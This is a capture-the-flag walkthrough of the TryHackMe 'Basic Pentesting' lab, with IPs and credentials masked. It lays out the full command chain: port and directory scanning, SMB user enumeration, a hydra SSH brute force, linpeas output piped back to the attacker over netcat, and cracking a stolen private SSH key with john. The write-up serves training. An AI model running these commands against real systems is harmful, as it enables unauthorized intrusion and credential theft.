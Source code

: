 <!-- TOC -->

- [Basic Pentesting](#basic-pentesting)
    - [Active Machine Information](#active-machine-information)
    - [Web App Testing and Privilege Escalation](#web-app-testing-and-privilege-escalation)
        - [Discovery and Scanning](#discovery-and-scanning)
        - [Remote Enumeration](#remote-enumeration)
        - [Exploitation](#exploitation)

<!-- /TOC -->

# Basic Pentesting

[Basic Pentesting Room](https://tryhackme.com/room/basicpentestingjt)

This is a machine that allows you to practise web app hacking and privilege escalation

---
## Active Machine Information

| Title | Target IP | Host IP |
| :----: | :----: | :----: |
| Web App Test | `1*.**.*.***` | `1*.**.**.**` |

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

### Discovery and Scanning

```bash
nmap -sC -sV -oN nmap 1*.**.*.***
```

> - `22/tcp` O***SSH
> - `80/tcp` A*****
> - `138/tcp` S****
> - `445/tcp` S****
> - `8009/tcp` A*****
> - `8080/tcp` A*****

View Page Source: `http://1*.**.*.***`

> `<!-- Check our dev note section if you need to know what to work on. -->`

```bash
gobuster dir -u http://1*.**.*.***/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 100
```

> `/d**********          (Status: 301) [Size: 316] [--> http://1*.**.*.***/d**********/]`


View Page Source: `http://1*.**.*.***/d**********/`

> `href="dev.txt"`

> `href="j.txt"`

Go to: `http://1*.**.*.***/d**********/dev.txt`

Go to: `http://1*.**.*.***/d**********/j.txt`

### Remote Enumeration

```bash
enum4linux 1*.**.*.*** | tee enum4linux
```

> `S-1-22-1-1000 Unix User\k** (Local User)`

> `S-1-22-1-1001 Unix User\j** (Local User)`

```bash
hydra -l j** -P /usr/share/wordlists/rockyou.txt ssh://1*.**.*.***
```

> `[22][ssh] host: 1*.**.*.***   login: j**   password: a******`

### Exploitation

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Using: `j**:a******`

```bash
scp /opt/linpeas/linpeas.sh j**@1*.**.*.***:/dev/shm
nc -lvnp 9000 | tee linpeas
ssh j**@1*.**.*.***
```

RHOST:

```bash
cd /dev/shm
chmod 700 linpeas.sh
./linpeas.sh -a -e | nc 1*.**.**.** 9000
```

> `══╣ Possible private SSH keys were found! /home/k**/.ssh/id_rsa`

```bash
cat /home/k**/.ssh/id_rsa
```

- Copy

LHOST:

```bash
cat > k**_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john k**_id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> `b****** (k**_id_rsa)`

```bash
chmod 600 k**_id_rsa
```

Using: `k**:b******`

```bash
ssh -i k**_id_rsa k**@1*.**.*.***
```

RHOST:

```bash
cat pass.bak
```

> `h*****************************************************$$`
